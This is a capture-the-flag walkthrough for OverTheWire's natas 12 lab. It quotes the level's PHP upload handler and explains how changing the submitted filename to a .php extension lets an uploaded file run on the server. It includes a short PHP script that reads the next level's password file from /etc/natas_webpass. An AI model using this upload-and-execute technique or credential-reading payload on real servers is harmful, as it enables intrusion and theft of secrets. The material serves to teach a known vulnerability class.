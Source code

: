 ```yaml
---
title: natas 12 walkthrough
description: over the wire natas 12
layout: libdoc_page
date: 1111-11-11
eleventyNavigation:
    key: natas-12 OverTheWire CTFs
    parent: OverTheWire CTFs
    title: natas 12 walkthrough
    order: 30
---
```

## Description
>   Username: natas12
> 
> URL:      http://natas12.natas.labs.overthewire.org
### Source Code
```php
<?php

function genRandomString() {
    $length = 10;
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz";
    $string = "";

    for ($p = 0; $p < $length; $p++) {
        $string .= $characters[mt_rand(0, strlen($characters)-1)];
    }

    return $string;
}

function makeRandomPath($dir, $ext) {
    do {
    $path = $dir."/".genRandomString().".".$ext;
    } while(file_exists($path));
    return $path;
}

function makeRandomPathFromFilename($dir, $fn) {
    $ext = pathinfo($fn, PATHINFO_EXTENSION);
    return makeRandomPath($dir, $ext);
}

if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```

---
## Progress
### Observation
From the source code, we know it keeps the file extension, and it generates a random filename to replace the original one. 

First, notice that we can control the file name sent to the server side. By changing `<input type="hidden" name="filename" value="utgmtlqgnh.jpg">`, we can control the file extension. (seems useless)

### Trial
Use `.sh` file type : cannot execute
Use `.php` file type : CAN execute

### Make PHP file
Just open the file with password 
```php
<?php 
$filepath = "/etc/natas_webpass/natas13";
$myfile = fopen($filepath, "r") or die("Unable to open file!");
echo fread($myfile,filesize($filepath));
fclose($myfile);
?>
```
### Upload and Access the File
Get the password.
---
## Hint

---
## Solving
### Reference
- https://portswigger.net/web-security/file-upload
### Category
- [[File upload vulnerability]]
### Techniques
- 

### Tools
- 